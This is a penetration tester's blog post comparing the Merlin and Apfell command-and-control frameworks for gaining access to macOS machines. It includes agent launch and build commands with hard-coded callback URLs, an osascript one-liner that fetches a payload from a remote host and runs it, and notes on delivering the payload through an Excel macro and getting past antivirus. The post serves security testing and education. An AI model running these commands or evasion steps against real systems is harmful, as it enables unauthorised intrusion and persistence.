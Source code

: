 ```yaml
---
title: "OSX Pentesting Part-1"
subtitle: A brief foray into OSX C2 Frameworks
categories:
  - Blog
tags:
  - Pentesting
  - OSX
  - C2
  - Red Teaming
---
```




*original posted [here](https://chessict.co.uk/blog/av-for-mac-do-you-really-need-it/)*

As a Pentester, I often find myself attempting to identify, * read: shamelessly steal/adapt people's research*, new and intuitive ways to gain access and persistence on Windows endpoints without triggering the AV. My current go-to being a combination of shellcode injection and cobbr's Covenant C2. However, one of the main drawbacks of these frameworks is their limited, or complete lack of, applicable stagers for OSX.

Now I'm sure we've all heard the spiel "Mac's don't get viruses", "Mac AV is a waste of money" etc. but we know that's simply not true. This knowledge, however, doesn't help when you find yourself on an engagement desperately trying to reconfigure payloads because you've landed in the Design department and, of course, all the endpoints on your subnet are OSX.

*Before I go much further, confession time: I have, and love, my MacBook Pro. Since switching to it a few years ago as my daily driver, I couldn't be without it, to the extent that I bought my own to use at work rather than use the Windows laptop provided.*

So here we are, my go-to C2 is .Net based and while the control centre will run on OSX, with some cajoling, there is no OSX stager capability out of the box; enter 'Merlin' and 'Apfell'.


### Merlin

While I've experimented with Ne0nd0g's Merlin C2 on and off for a while, I actually very rarely find myself using it on engagements and I have no idea why. Written in Go, a language I'm actively trying to understand and utilise more, it can easily have agents compiled for Linux,OSX and Windows. One of Merlin's key features is its ability to evade network detection by utilising the HTTP/2 protocol (which most tools are ill-equipped to understand or inspect).

Out of the box, setup is relatively simple. It's just a case of downloading the applicable server and agent binary from the [GitHub repo](https://github.com/Ne0nd0g/merlin/releases). Once you've got the relevant binaries, you can spin up the merlin server from the terminal using the below command.

```python 
merlinServer-Linux-x64 -p 80 -i 0.0.0.0 
```
With 80 signfying the port you wish to listen on and 0.0.0.0 being the interface (in this case all)

![MServerStartup]({{site.url}}/assets/posts/OSXPenP1/MServerStartup.png)

Agent execution is achieved simply by executing the binary on your target host with the relevant details of your C2 server. I leave it to the reader to identify how they might get this binary onto the target host.

```python
merlinAgent-Darwin-x64 -url https://192.168.1.104:80
```

And thats it! We should now have a callback from our OSX target to our C2 server

![MCallBack]({{site.url}}/assets/posts/OSXPenP1/MAgentCallBack.png)

While this is very simple to set up, this simplicity comes with its drawbacks. From an attack vector perspective, the need to drop a binary onto disk and the requirement for a URL flag makes it more complex to trick a user into execution via social engineering. Additionally, the pre-compilation of the agent means it is much more likely to be detected by signature detection, as shown by VirusTotal.

![MVT1]({{site.url}}/assets/posts/OSXPenP1/MVT1.png)

Straight away, we can start to address some of these issues. Instead of utilising the released binary, we can create our own from source. We can also improve our social engineering chances by providing a method for 'one-click' execution by hard coding the connection URL.

```python
make agent-darwin URL=https://192.168.1.104:80
```

Both of these instantly drop the detection rate.
![MVT2]({{site.url}}/assets/posts/OSXPenP1/MVT2.png)

Unfortunately, these changes were not enough to trick the NextGen Sophos AV running on my Mac. At this stage, I would typically look at writing a separate dropper application as well as converting the stager into shellcode to avoid detection. This is both outside of the scope of this small blog and outside of my current OSX coding skills.

### Apfel

ApFell is a recent addition to my C2 arsenal, mainly due to it being directly targeted against *nix-based systems and not Windows. Fundamentally using a Web GUI frontend with docker instances running in the background, setup is achieved relatively easily via an [installation script](https://github.com/its-a-feature/Apfell).

On connecting to the WebGui you can easily review what operations are in progress and choose which one you want to connect to.

![APFellS1]({{site.url}}/assets/posts/OSXPenP1/APFellS1.png)

Payload generation is similarly streamlined by simply accessing the 'Create Components/Create Payload' menu.

![APFellPayload]({{site.url}}/assets/posts/OSXPenP1/APFellPayload.png)

From this menu, you can customise your attacking payload with the standard information such as encryption key, call-back host/port etc. The most notable element of payload creation is the ability to choose what functionality to include in your payload – a stroke of genius in situations where you're trying to stay undetected.

![APFellPayload2]({{site.url}}/assets/posts/OSXPenP1/APFellPayload2.png)

By restricting the functionality of any initial stager to just that which is required (typically something with command execution). Once a foothold has been achieved you can always include additional functionality in later payloads.

On clicking 'Submit' you can review/host/download your payload from the 'Manage Operations/Manage Payloads' page.

![APFellPayload3]({{site.url}}/assets/posts/OSXPenP1/APFellPayload3.png)

Now, because I'm one - lazy and two - don't like dropping directly malicious files to disk when I can help it, Apfell's ability to host files is definitely another bonus.

![APFellPhosting]({{site.url}}/assets/posts/OSXPenP1/APFellhosting.png)

Though based upon VirusTotal's detection metrics, dropping the resulting file onto the disk is currently unlikely to raise many flags.

![APFellVT1]({{site.url}}/assets/posts/OSXPenP1/APFellVT1.png)

By clicking on 'Config' you can review the settings of your payload, as well as obtain the relevant execution command.

```javascript
osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://domain.com/payload.file')),$.NSUTF8StringEncoding)));"
```

Whilst not exactly the easiest command to trick users into executing, well in the capabilities of a rubber ducky/digispark attack scenario.

![APFellCallback1]({{site.url}}/assets/posts/OSXPenP1/APFellCallback1.png)

It’s not pretty, but it gets the job done, with AV none the wiser.

As stated before, this isn't exactly social engineering friendly – however thanks to Microsoft's inclusion of the VBA command 'Shell' and its cross-platform capabilities, getting this to execute from a macro is straight forward.

![APFellMacro]({{site.url}}/assets/posts/OSXPenP1/APFellMacro.png)

I started to play around with throwing some obfuscation into this (hence the commented out lines), but in the end this wasn't needed and AV lets it sail through with no issues, although the detection rate was increased.

![APFellVT2]({{site.url}}/assets/posts/OSXPenP1/APFellVT2.png)

This is most likely down to using an 'xlsm' to wrap my payload and the AV's in question being a bit twitchy (none of the Enterprise-based AV batted an eye), rather than them identifying the malicious content for what it is.

### Conclusion

Both C2 frameworks have good points and bad points, however on the whole I’d have to say Apfell takes the lead as the better framework when it comes to OSX C2 exploitation. This is primarily due to it providing lower AV detections, dropping fewer files to disk and the ability to customise payloads to fit particular use-cases, rather than being forced to include all capabilities and raising the detection risk. 

In part-2 (whenever I get around to write it), I’ll be looking more at how you can utilise both inbuilt OSX functionality as well as your own tooling to exploit Active Directory from the position of a compromised OSX device.

